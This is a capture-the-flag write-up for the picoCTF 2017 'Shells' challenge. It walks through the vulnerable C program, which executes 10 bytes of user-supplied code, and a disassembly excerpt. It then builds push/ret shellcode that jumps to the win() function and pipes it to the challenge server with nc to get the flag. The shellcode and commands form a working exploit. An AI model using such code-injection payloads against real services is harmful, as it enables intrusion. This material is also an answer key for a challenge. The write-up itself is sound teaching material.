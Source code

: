 # Shells
---
### Question
How much can a couple bytes do? Use shells! Source. Connect on shell2017.picoctf.com:17533.

### HINTS

Read about basic shellcode
You don't need a full shell (yet...), just enough to get the flag

---
# Solution

1. It's just little tricky one. But if you know basic of shellcode's then it might be easy for you. This time again we got two files
   ```bash
   $ls
   shells shells.c
   ```
   So now lets try to HexDump the ```shells``` binary.
   
   ```
   shells:     file format elf32-i386
    Disassembly of section .init:
    08048378 <_init>:
     8048378:	53                   	push   %ebx
     8048379:	83 ec 08             	sub    $0x8,%esp
     804837c:	e8 ef 00 00 00       	call   8048470 <__x86.get_pc_thunk.bx>
     8048381:	81 c3 8b 16 00 00    	add    $0x168b,%ebx
     8048387:	8b 83 fc ff ff ff    	mov    -0x4(%ebx),%eax
     804838d:	85 c0                	test   %eax,%eax
     804838f:	74 05                	je     8048396 <_init+0x1e>
     8048391:	e8 6a 00 00 00       	call   8048400 <__gmon_start__@plt>
     8048396:	83 c4 08             	add    $0x8,%esp
     8048399:	5b                   	pop    %ebx
     804839a:	c3                   	ret    
    
    Disassembly of section .plt:
    
    080483a0 <read@plt-0x10>:
     80483a0:	ff 35 10 9a 04 08    	pushl  0x8049a10
     80483a6:	ff 25 14 9a 04 08    	jmp    *0x8049a14
     80483ac:	00 00                	add    %al,(%eax)
    	...
    
    080483b0 <read@plt>:
     80483b0:	ff 25 18 9a 04 08    	jmp    *0x8049a18
     80483b6:	68 00 00 00 00       	push   $0x0
     80483bb:	e9 e0 ff ff ff       	jmp    80483a0 <_init+0x28>
    
    080483c0 <printf@plt>:
     80483c0:	ff 25 1c 9a 04 08    	jmp    *0x8049a1c
     80483c6:	68 08 00 00 00       	push   $0x8
     80483cb:	e9 d0 ff ff ff       	jmp    80483a0 <_init+0x28>
    --More--
   ```
   
   So it's x86 binary. 
   
   Now lets take a look on ```shells.c``` file.
   ```C
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <sys/mman.h>
    
    #define AMOUNT_OF_STUFF 10
    
    //TODO: Ask IT why this is here
    void win(){
        system("/bin/cat ./flag.txt");    
    }
    
    
    void vuln(){
        char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
        if(stuff == MAP_FAILED){
            printf("Failed to get space. Please talk to admin\n");
            exit(0);
        }
        printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
        fflush(stdout);
        int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
        if(len == 0){
            printf("You didn't give me anything :(");
            exit(0);
        }
        void (*func)() = (void (*)())stuff;
        func();      
    }
    
    int main(int argc, char*argv[]){
        printf("My mother told me to never accept things from strangers\n");
        printf("How bad could running a couple bytes be though?\n");
        fflush(stdout);
        vuln();
        return 0;
    }
   ```
   
   Just see their iss one ```win()``` function. Lets take a look on win() function in our HexDump. We can short out output using ```grep``` command. 
   ```bash
   objdump -d shells | grep win
   08048540 <win>:
   ```
   
   We got the address in Hex we used to write it in this way ```0x08048540```. 
   
   Now we can use [radare2](https://github.com/radare/radare2) to generate our payload. Actually we need ```push+ret``` in order to make our payload.
   
   ```bash
   $rasm2 -C "push 0x08048540"
   "\x68\x40\x85\x04\x08"
   
   $rasm2 -C "ret"
   "\xc3"
   ```
   
  Here ```-C``` will give output in c format.Now combine the output of push+ret:```\x68\x40\x85\x04\x08\xc3```
  
  Now print this shellcode in one file name: ```spirit_shells```.
  ```python
   python -c 'print "\x68\x40\x85\x04\x08\xc3"' > spirit_shells
  ``` 
  
  now just cat it out with the : shell2017.picoctf.com:17533
  
  ```bash
  $cat spirit_shells - | nc shell2017.picoctf.com 17533
   My mother told me to never accept things from strangers
   How bad could running a couple bytes be though?
   Give me 10 bytes:
   4350d27b024f8597f10b98f164f0fc43
  ```

 So, i think we got the flag ```4350d27b024f8597f10b98f164f0fc43```.
 
 Hope you liked it
 
   ~Thanks
   
   [@spiritedwolf](https://github.com/spiritedwolf)

---

